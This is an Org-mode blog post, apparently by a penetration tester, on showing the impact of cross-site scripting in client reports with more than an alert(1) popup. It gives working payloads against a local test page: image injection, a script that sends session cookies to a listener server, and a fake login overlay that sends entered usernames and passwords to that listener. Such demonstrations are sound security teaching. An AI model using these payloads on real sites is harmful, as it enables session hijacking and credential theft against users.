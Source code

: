 #+HTML_HEAD: <link rel="stylesheet" type="text/css" href="org.css"/>
#+OPTIONS: num:0 toc:nil html-postamble:nil
#+PROPERTY: header-args :tangle yes :exports both :eval no-export :results output
 - [[file:index.html][home]]
* Beyond alert(1)
  Often when reporting cross-site scripting (XSS) I see the tester just show that they were able to inject some sort of /payload/ that returned a popup box with a =1= in it. This is great and all, but I argue how this shows "impact" in the report to the client.

  XSS can be very dangerous and if the finding in the report just shows a popup with a =1= in it how would they know the full impact of the vulnerability unless they were familiar with XSS?

  I want to outline a few examples that I think would show more "impact" when trying to show XSS in your report.
** Setup
   For this I only need a quick page that will echo my input in the response that I can use for testing.
   #+begin_src php
     <?php
     echo $_GET[a]
     ?>
   #+end_src
   Just to confirm that its working.
   #+begin_src shell
     curl "http://127.0.0.1:8080/page.php?a=hello" && \
	 curl "http://127.0.0.1:8080/page.php?a=<script>alert()</script>"
   #+end_src

   #+RESULTS:
   : hello
   : <script>alert()</script>

** Image Injection
   So I'm not going to teach you what XSS is, but when I first learnt about it I was told that its a fancy way to say "JavaScript injection". Now although that is true, =html= or any other front end "language/markup" may be used in the injection point, with that in mind, I feel that it shows more impact in the report showing that you were able to inject your employers logo into the clients application.

   To do this I normally host the image on a local web server then try the payload ~<img src=http://127.0.0.1:8000/logo.png>~ in the injection point of the application.
   #+begin_src shell :dir beyond_alert1/
     file ./logo.png
   #+end_src

   #+RESULTS:
   : ./logo.png: PNG image data, 200 x 200, 8-bit/color RGBA, non-interlaced
   
   Then I just use a local =python= server.
   #+begin_src shell
     python -m SimpleHTTPServer 8000
   #+end_src

   After using the payload above the image is now in the applications immediate response.

   [[./beyond_alert1/image.png]]

   In my opinion this looks far better in your report, it shows that you were able to inject an image into the clients applications response, but lets see if we can take that a little further.
** Session Token Hijacking
   Cookie stealing or session hijacking requires not only XSS but the cookie to be set without the =HttpOnly= or the session identifier to be retrievable from the applications response. As this is all about showing impact, I'd suggest only going for this option when your doing a test authenticated and with more than one user account to show privilege escalation of some sort. The typical payload for this would be ~<script src="http://127.0.0.1:8000"+document.cookie>~ however I wanted to share a way that I feel would show more impact.

   First we have to modify the test page to actually include a session token in the response.
   #+begin_src php
     <?php
     echo $_GET[a];

     $cookie_name = "test";
     $cookie_value = "get_me";
     setcookie($cookie_name, $cookie_value, "/");

     ?>
   #+end_src

   Lets confirm that works as expected.
   #+begin_src shell
     curl -I "http://127.0.0.1:8080/page.php?a=test"
   #+end_src

   #+RESULTS:
   : HTTP/1.1 200 OK
   : Host: 127.0.0.1:8080
   : Date: Mon, 30 Dec 2019 13:53:20 GMT
   : Connection: close
   : X-Powered-By: PHP/7.3.11-1~deb10u1
   : Set-Cookie: test=get_me
   : Content-type: text/html; charset=UTF-8

   Ok great, the page sets the session token as expected, I'm now going to host the following JavaScript file that will open a popup, send the session token to the web server, and then close the popup window.
   #+begin_src javascript
     var remoteAddr = "http://127.0.0.1:8000/";

     //popup may get blocked by the browser
     function Popup(listener){
	 window.open(listener+"?cookie=" + document.cookie,'popUpWindow','height=10,width=10,left=100,top=100').close();

     }
     Popup(remoteAddr);
   #+end_src

   Now if I use the following payload ~<script src=http://127.0.0.1:8000/popup.js></script>~ I should receive the session token in the web logs.

   [[./beyond_alert1/cookie.png]]

** UI Redressing
   The last option I wanted to share is UI redressing, this shows that you can actually rewrite the applications response in the browser to look like a login page, and if details are submitted then they are sent to the web server. 

   First like last time I'll host the JavaScript file in the web sever.
   #+begin_src javascript
     var protocol = "http";
     var server = "127.0.0.1";
     var port = "8000";

     var remoteAddr = protocol+"://"+server+":"+port+"/";

     function fakeLogin(listener){
	 history.replaceState(null,null,'../../../login');
	 document.body.innerHTML = "</br></br><h1>Please login to continue</h1><form action="+listener+" method='get'><label usern='usern'>Username:</label><input name='usern'id='usern'><label passw='passw'>Password:</label><input name='passw'id='passw'><button>Submit</button></form>"; //must be on one line
     }
     fakeLogin(remoteAddr);
   #+end_src

   Now including this file in the script source will rewrite the applications response to look like this.

   [[./beyond_alert1/uipage.png]]

   Now as this is just a proof of concept its not pretty, but I hope the reader gets the point. The impact here comes when you submit that form, because they should be sent to the web server.

   [[./beyond_alert1/uicreds.png]] 

** Conclusion
   I hope from reading the examples that showing a box with a =1= in it as your finding for XSS really does not show the impact of the finding to the client. All my examples and more are available [[https://gitlab.com/JxTx/xsshop][here]].
